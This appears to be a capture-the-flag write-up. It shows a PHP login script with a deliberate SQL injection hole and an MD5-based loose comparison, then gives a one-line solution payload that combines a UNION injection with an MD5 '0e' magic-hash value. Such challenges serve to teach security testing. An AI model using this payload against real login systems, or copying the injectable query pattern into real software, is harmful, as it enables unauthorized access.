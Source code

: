 # Challenge 
```php 
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```
# Solution 
payload:
```
user=' union select "0e830400451993494058024219903391"#&pass=QNKCDZO
```

# Refference
+ [chybeta : 程序逻辑问题](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#%E7%A8%8B%E5%BA%8F%E9%80%BB%E8%BE%91%E9%97%AE%E9%A2%98)
